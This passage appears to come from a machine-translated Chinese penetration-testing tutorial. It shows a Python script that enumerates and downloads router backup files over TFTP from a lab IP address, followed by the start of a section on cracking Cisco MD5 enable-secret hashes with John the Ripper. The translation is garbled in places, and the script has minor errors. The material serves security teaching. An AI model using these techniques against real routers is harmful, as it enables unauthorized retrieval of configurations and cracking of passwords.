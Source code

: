 当脚本以活动横幅响应时，我们可以去获取服务的详细信息。这可以通过`nmap`等工具来完成，但脚本的框架可以调整，以获取更多或更少的细节，执行后续请求，甚至在必要时长时间地萎靡不振。因此，如果`nmap`或其他工具无法正确获取细节，则可以使用此脚本。应该注意的是，这比其他工具慢得多，应该将其作为辅助工具，而不是主要工具。

### 注

如前所述，`nmap`可以使用 NSE 横幅脚本以更快的速度完成类似的任务，如[所述 https://nmap.org/nsedoc/scripts/banner.html](https://nmap.org/nsedoc/scripts/banner.html) 。

从横幅抓取结果中，我们现在可以编写一个 Python 脚本，该脚本可以通过潜在的备份文件名进行增量，并尝试下载它们。因此，我们将创建一个目录来存储从这个 quick and 脚本请求的所有潜在文件。在这个目录中，我们可以列出内容并查看哪些内容超过 0 字节。如果我们看到内容超过 0 字节，我们就知道我们已经成功抓取了一个备份文件。我们将创建一个名为 backups 的目录，并从中运行此脚本：

```
#!/usr/bin/env python
try:
    import tftpy
except:
    sys.exit(“[!] Install the package tftpy with: pip install tftpy”)
def main():
    ip = "192.168.195.165"
    port = 69
    tclient = tftpy.TftpClient(ip,port)
    for inc in range(0,100):
        filename = "example_router" + "-" + str(inc)
        print("[*] Attempting to download %s from %s:%s") % (filename,ip,port)
        try:
tclient.download(filename,filename)
        except:
            print("[-] Failed to download %s from %s:%s") % (filename,ip,port)

if __name__ == '__main__':
    main()
```

如您所见，编写此脚本是为了查找从`example_router-0`到`example_router-99`的路由器名称的备份。结果可以在输出目录中看到，如下所示：

![Determining the backup filenames](graphics/B04315_07_05.jpg)

现在，我们只需要确定每个文件有多大，就可以使用`ls -l`命令为路由器找到一个实际的备份。此命令的示例输出可以在下面的屏幕截图中看到。正如您在这里看到的，`example_router-5`似乎是一个包含数据的实际文件：

![Determining the backup filenames](graphics/B04315_07_06.jpg)

## 破解 Cisco MD5 哈希

现在我们可以看到备份文件中是否有哈希密码，如下所示：

![Cracking Cisco MD5 hashes](graphics/B04315_07_07.jpg)

裂土器约翰工具现在可以用来在正确格式化后破解这些散列。为此，请将这些哈希设置为如下格式：

```
enable_secret:hash

```
